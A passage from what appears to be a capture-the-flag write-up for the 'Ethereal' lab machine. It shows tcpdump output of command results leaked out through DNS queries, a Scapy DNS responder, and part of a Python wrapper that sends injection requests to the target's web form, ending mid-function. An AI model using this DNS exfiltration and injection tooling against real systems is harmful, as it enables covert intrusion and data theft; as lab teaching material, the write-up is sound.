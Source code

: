 
If I watch in `tcpdump`, I’ll see that each query is coming in multiple times.
Here’s the line `06/30/2018 10:10 PM <DIR> inetpub` in 5 queries:

    
    
    22:26:08.157743 IP ethereal.htb.63609 > kali.domain: 1+ PTR? 14.14.10.10.in-addr.arpa. (42)
    22:26:10.155284 IP ethereal.htb.56936 > kali.domain: 2+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
    22:26:12.155170 IP ethereal.htb.56937 > kali.domain: 3+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                            
    22:26:14.155072 IP ethereal.htb.56938 > kali.domain: 4+ A? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)                                               
    22:26:16.856501 IP ethereal.htb.56939 > kali.domain: 5+ AAAA? Q06/30/2018X.Q10:10X.QPMX.Q<DIR>X.QinetpubX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX.QX. (124)
    

I suspect that’s because it doesn’t get an answer, so it tries to ask again.
I’ll update the DNS listener to send a response for each domain with the
answer “127.0.0.1”:

    
    
     23     def parse_packet(self, p):
     24         if p.haslayer(DNS) and p.getlayer(DNS).qd.qtype == 1:
     25             domain = p.getlayer(DNS).qd.qname.decode('utf-8')
     26             print(domain[1:-2].replace('X.Q',' ').strip())
     27             reply = IP(dst=p[IP].src)/UDP(dport=p[UDP].sport, sport=53)/DNS(id=p[DNS].id,
     28                     ancount=1, an=DNSRR(rrname=p[DNSQR].qname, rdata='127.0.0.1')/DNSRR(rrname=domain,
     29                     rdata='127.0.0.1'))
     30             send(reply, verbose=0, iface=self.interface)
    

That eliminates the doubles, and reduces the number of DNS packets from five
to three, and speeds up the process.

## Improvements

### Error Checking

Sometimes I would walk away from my computer, and the state tokens would go
stale. That causes a 500 response to come back when I sent a POST. I could
just kill the shell and re-open it, but I’d rather have it just recognize the
issue and re-initiate. To do this, I’ll move much of the stuff from
`__init__()` to a `do_login()` function (and call it from `__init__()`), and
then add a check on the response when I make a POST. If it comes back 500
immediately (using a timer to differentiate from a call that eventually times
out to 500 while running a lot of DNS), I’ll call `do_login`. Having the Login
function start with `do_` means that I can refresh my login any time by just
entering `login` from the shell command line.

My `send_post` now looks like this:

    
    
     64     def send_post(self, search):
     65         data = {'__VIEWSTATE': self.view_state,
     66                 '__VIEWSTATEGENERATOR': self.view_state_gen,
     67                 '__EVENTVALIDATION': self.event_val,
     68                 'search': search,
     69                 'ctl02': ''}
     70         try:
     71             start = time.time()
     72             resp = requests.post('http://ethereal.htb:8080/',
     73                              proxies=self.proxy,
     74                              data = data,
     75                              auth = self.auth,
     76                              timeout=120)
     77             if resp.status_code == 500 and time.time - start < 30: